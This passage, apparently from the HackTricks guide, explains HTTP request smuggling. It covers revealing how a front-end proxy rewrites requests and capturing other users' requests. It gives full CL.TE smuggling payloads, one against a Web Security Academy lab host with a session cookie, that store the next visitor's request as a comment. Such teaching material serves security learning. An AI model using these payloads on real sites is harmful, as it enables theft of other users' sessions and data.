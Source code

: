 ### Revealing front-end request rewriting <a href="#revealing-front-end-request-rewriting" id="revealing-front-end-request-rewriting"></a>

In many applications, the **front-end server performs some rewriting of requests** before they are forwarded to the back-end server, typically by adding some additional request headers.\
One common thing to do is to **add to the request the header** `X-Forwarded-For: <IP of the client>` or some similar header so the back-end knows the IP of the client.\
Sometimes, if you can **find which new values are appended** to the request you could be able to **bypass protections** and **access hidden information**/**endpoints**.

For discovering how is the proxy rewriting the request you need to **find a POST parameter that the back-end will reflect it's value** on the response. Then, use this parameter the last one and use an exploit like this one:

`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Content-Length: 130`\
`Connection: keep-alive`\
`Transfer-Encoding: chunked`\
`0`\
``\ `POST /search HTTP/1.1`\ `Host: vulnerable-website.com`\ `Content-Type: application/x-www-form-urlencoded`\ `Content-Length: 100`\``\
`search=`

In this case the next request will be appended after `search=` which is also **the parameter whose value is going to be reflected** on the response, therefore it's going to **reflect the headers of the next request**.

Note that **only the length indicated in the `Content-Length` header of the embedded request is going to be reflected**. If you use a low number, only a few bytes will be reflected, if you use a bigger number than the length of all the headers, then the embedded request will throw and error. Then, you should **start** with a **small number** and **increase** it until you see all you wanted to see.\
Note also that this **technique is also exploitable with a TE.CL** vulnerability but the request must end with `search=\r\n0`. However, independently of the new line characters the values are going to be appended to the search parameter.

Finally note that in this attack we are still attacking ourselves to learn how the front-end proxy is rewriting the request.

### Capturing other users' requests <a href="#capturing-other-users-requests" id="capturing-other-users-requests"></a>

If you can find a POST request which is going to save the contents of one of the parameters you can append the following request as the value of that parameter in order to store the quest of the next client:

`POST / HTTP/1.1`\
`Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net`\
`Content-Type: application/x-www-form-urlencoded`\
`Content-Length: 319`\
`Connection: keep-alive`\
`Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi`\
`Transfer-Encoding: chunked`\
``\ `0`\``\
`POST /post/comment HTTP/1.1`\
`Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net`\
`Content-Length: 659`\
`Content-Type: application/x-www-form-urlencoded`\
`Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi`\
\`\`\
`csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=HACKTRICKS&email=email%40email.com&comment=`
